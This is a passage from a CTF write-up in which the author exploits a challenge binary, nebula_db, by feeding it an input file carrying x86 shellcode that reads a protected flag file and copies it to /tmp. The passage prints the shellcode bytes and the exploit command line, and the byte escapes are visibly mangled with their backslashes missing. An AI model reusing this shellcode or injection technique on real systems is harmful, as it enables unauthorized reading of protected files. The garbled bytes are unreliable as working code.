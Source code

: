 So you can replace xcc with a shellcode to read the flag key file.  
Here is my shellcode to read /home/suto/flag and write to /tmp/flag: ( [assembly source][2])

<pre class="brush: cpp; title: ; notranslate" title="">char shellcode[] =
        "xebx44x5bx31xc0x88x43x0fxb0x05xb9x42x44x41x41"
        "xc1xe1x14xc1xe9x14x66xbaxe4x01xcdx80x50x83xc3"
        "x10x31xc0xb0x05xcdx80x5bx50xb0xc8x29xc4x89xe1"
        "x89xc2x31xc0xb0x03xcdx80xb0xc8x01xc4x5bx31xc0"
        "xb0x04xcdx80x31xc0xb0x01xcdx80xe8xb7xffxffxff"
        "x2fx68x6fx6dx65x2fx73x75x74x6fx2fx66x6cx61x67"
        "x41x2fx74x6dx70x2fx66x6cx61x67";

</pre>

<pre class="brush: cpp; title: ; notranslate" title="">suto@ubuntu:~$ python -c 'print "1n"+"A"*250+"n"+"1"*250+"n"+"2n0n"+  "xebx44x5bx31xc0x88x43x0fxb0x05xb9x42x44x41x41       xc1xe1x14xc1xe9x14x66xbaxe4x01xcdx80x50x83xc3
x10x31xc0xb0x05xcdx80x5bx50xb0xc8x29xc4x89xe1
x89xc2x31xc0xb0x03xcdx80xb0xc8x01xc4x5bx31xc0
xb0x04xcdx80x31xc0xb0x01xcdx80xe8xb7xffxffxff
x2fx68x6fx6dx65x2fx73x75x74x6fx2fx66x6cx61x67
x41x2fx74x6dx70x2fx66x6cx61x67";' &gt; input
suto@ubuntu:~$./nebula_db &lt; input
suto@ubuntu:~$cat /tmp/flag
hello
</pre>

Finally,congratz to bobsleigh is the only team solved it.  
Thanks fluzfinger team for a great ctf. See u guys in next year!

&#8211;suto&#8211;

 [1]: http://drosenbe.blogspot.com/2010/04/controlling-uninitialized-memory-with.html
 [2]: http://pastebin.com/yWUE40cM